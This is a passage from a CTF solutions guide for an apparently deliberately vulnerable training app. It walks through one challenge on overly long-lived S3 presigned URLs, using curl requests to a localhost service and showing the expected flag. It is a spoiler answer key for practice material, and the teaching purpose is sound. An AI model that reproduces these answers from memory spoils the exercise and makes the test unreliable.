 # DVTC CTF Solutions

SPOILER WARNING: This document contains complete solutions for all CTF challenges. Try solving them yourself first.

---

## Using This Guide

Each solution includes:
- Difficulty level (Easy/Medium/Hard)
- What vulnerability you're exploiting
- Step-by-step instructions with exact commands
- Expected output
- Why it's vulnerable and how to fix it

---

## FLAG01: Leaky Presigned URL (100 points) - Easy

### Vulnerability
Cloud Storage Misconfiguration - Overly Long S3 Presigned URLs

### What You'll Learn
- Understanding S3 presigned URL expiration policies
- Recognizing excessive access duration as a security risk
- Best practice: Presigned URLs should expire in minutes (15-60), not days

### Solution

Step 1: Discover available reports
```bash
curl http://localhost:8000/api/reports/list
```

Look for the hint in the response pointing to `/api/reports/presigned`

Step 2: Request a long-lived presigned URL
```bash
curl "http://localhost:8000/api/reports/presigned?file=internal-soc2-plan.pdf&expiry=86400"
```

Expected Response:
```json
{
  "url": "http://localstack:4566/...",
  "bucket": "dvtc-internal-reports",
  "file": "internal-soc2-plan.pdf",
  "expires_in": 86400,
  "expires_at": "2024-XX-XXT...",
  "warning": "Long-lived presigned URL generated",
  "flag": "flag{presigned_url_forever}"
}
```
